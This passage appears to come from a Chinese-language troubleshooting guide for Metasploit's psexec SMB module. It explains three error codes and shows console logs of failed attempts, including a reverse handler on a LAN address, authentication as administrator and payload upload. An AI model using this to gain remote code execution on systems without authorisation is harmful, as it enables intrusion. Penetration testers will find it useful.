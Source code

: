 ### (16) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_ACCESS\_DENIED

报错原因：90sec 这个帐户可能不是本地管理员或启用了 Windows UAC 的帐户。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445|WORKGROUP as user 'administrator'...
\[\*\] Uploading payload...
\[-\] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_OBJECT\_PATH\_SYNTAX\_BAD (Command=45 WordCount=0)
```

### (17) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_OBJECT\_PATH\_SYNTAX\_BAD

报错原因：指定了错误的共享目录，例如 IPC$。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445|WORKGROUP as user 'administrator'...
\[\*\] 192.168.1.108:445 - Selecting native target
\[\*\] 192.168.1.108:445 - Uploading payload... PGREJDWE.exe
\[-\] 192.168.1.108:445 - Exploit failed: RubySMB::Error::UnexpectedStatusCode STATUS\_OBJECT\_NAME\_NOT\_FOUND
\[\*\] Exploit completed, but no session was created.
```

RubySMB::Error::UnexpectedStatusCode STATUS\_OBJECT\_NAME\_NOT\_FOUND

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...
\[\*\] Uploading payload...
\[\*\] Created \\dwgbefJq.exe...
\[\*\] Deleting \\dwgbefJq.exe...
```

### (18) Hata Mesajı Yok

报错原因：由于重定向或其他原因，受害计算机与攻击者计算机之间没有连接。尽管相关共享（对于此示例为 ADMIN $，但对于其他无权访问 services.exe 的共享则更合乎逻辑）具有写入 / 读取权限，但如果该服务未经授权，也可能会收到此错误。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.103:445|WORKGROUP as user 'administrator'...
\[\*\] Uploading payload...
\[\*\] Created \\quVtTqcy.exe...
\[\*\] Deleting \\quVtTqcy.exe...
\[-\] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_OBJECT\_NAME\_NOT\_FOUND (Command=6 WordCount=0)
```

